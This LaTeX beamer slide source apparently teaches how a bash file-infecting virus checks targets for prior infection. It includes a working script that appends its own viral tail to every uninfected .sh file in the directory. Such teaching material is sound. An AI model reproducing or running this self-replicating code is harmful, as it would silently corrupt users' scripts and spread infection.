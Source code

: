 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Strategy 2 - Variant: Code as Signature}
  We need to compare the end of the infecting file:
  \begin{itemize}
  \item with tail we select the end,
    \item with \texttt{echo -n} we remove the newlines.
  \end{itemize}

\begin{block}{\texttt{vbashp-surinf-tail.sh}}    \begin{small}
\end{small}\end{block}
\end{frame}

\begin{frame}
  \frametitle{Strategy 3 - Execution Test}


For each target:
\begin{itemize}
\item The virus isolates the last lines potentially containing the virus.
\item It then launches the corresponding code with the argument \texttt{"test"}.
\item Execution with this argument causes the display of \texttt{"test"}.
  \item Analysis of the output tells us whether the file is infected or not.
\end{itemize}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Strategy 3  - Example}
  \begin{block}{vbashp-surinf-test.sh}
    \begin{scriptsize}
\begin{verbatim}
L=23 # number of lines of viral code
if [ ! -z $1 ] &&  [ $1 = "test" ]
   then
       echo "test"   # prints test when already infected
       exit 0
fi
touch test.sh # temporary file for reinfection test
chmod u+x test.sh
for f in *.sh
do
    if [ $f != "test.sh" ]
    then
       # reinfection management
       tail -n $L $f > test.sh # extract the viral code
       t=$(echo -n $(./test.sh "test")) # execution test
       if [ "$t" != "test" ]
       then
           # infection
           tail -n $L $0 >> $f
       fi
    fi
done
rm test.sh
\end{verbatim}
 \end{scriptsize}

  \end{block}
\end{frame}
\end{document}
